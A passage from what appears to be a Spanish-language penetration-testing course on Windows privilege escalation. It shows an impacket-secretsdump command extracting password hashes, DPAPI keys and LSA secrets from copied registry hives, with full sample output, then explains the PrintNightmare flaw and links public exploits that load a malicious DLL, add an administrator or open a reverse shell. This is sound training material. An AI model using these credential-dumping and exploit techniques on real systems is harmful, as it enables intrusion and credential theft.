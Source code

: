 Estas copias luego pueden ser transferidas de vuelta al host de ataque, donde se utiliza **impacket-secretsdump** para extraer los **hashes**:

```r
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM 
 0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
```

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` es una falla en [RpcAddPrinterDriver](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22) que se utiliza para permitir la impresión remota y la instalación de controladores. Esta función está destinada a dar a los usuarios con el privilegio **Windows SeLoadDriverPrivilege** la capacidad de agregar controladores a un **Print Spooler** remoto. Este derecho está típicamente reservado para los usuarios en el grupo de **Administrators** integrado y **Print Operators** que pueden tener una necesidad legítima de instalar un controlador de impresora en la máquina de un usuario final de forma remota. La falla permitió que cualquier usuario autenticado agregara un controlador de impresora a un sistema **Windows** sin tener el privilegio mencionado anteriormente, lo que permite a un atacante ejecutar código remoto completo como **SYSTEM** en cualquier sistema afectado. La falla afecta a todas las versiones soportadas de **Windows**, y dado que el **Print Spooler** se ejecuta por defecto en **Domain Controllers**, **Windows 7** y **10**, y a menudo está habilitado en servidores **Windows**, esto presenta una superficie de ataque masiva, de ahí "nightmare". **Microsoft** inicialmente lanzó un parche que no solucionó el problema (y la guía inicial era deshabilitar el servicio **Spooler**, lo cual no es práctico para muchas organizaciones) pero lanzó un segundo [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) en julio de 2021 junto con la guía para verificar que ciertas configuraciones del registro estén establecidas en **0** o no definidas. Una vez que esta vulnerabilidad se hizo pública, se lanzaron rápidamente **PoC exploits**. [Esta](https://github.com/cube0x0/CVE-2021-1675) versión de **[@cube0x0](https://twitter.com/cube0x0)** puede ser utilizada para ejecutar una **DLL** maliciosa de forma remota o local utilizando una versión modificada de **Impacket**. El repositorio también contiene una implementación en **C#**. Esta [implementación en PowerShell](https://github.com/calebstewart/CVE-2021-1675) puede ser utilizada para una rápida escalación de privilegios locales. Por defecto, este script agrega un nuevo usuario administrador local, pero también podemos proporcionar una **DLL** personalizada para obtener un **reverse shell** o similar si agregar un usuario administrador local no está dentro del alcance.
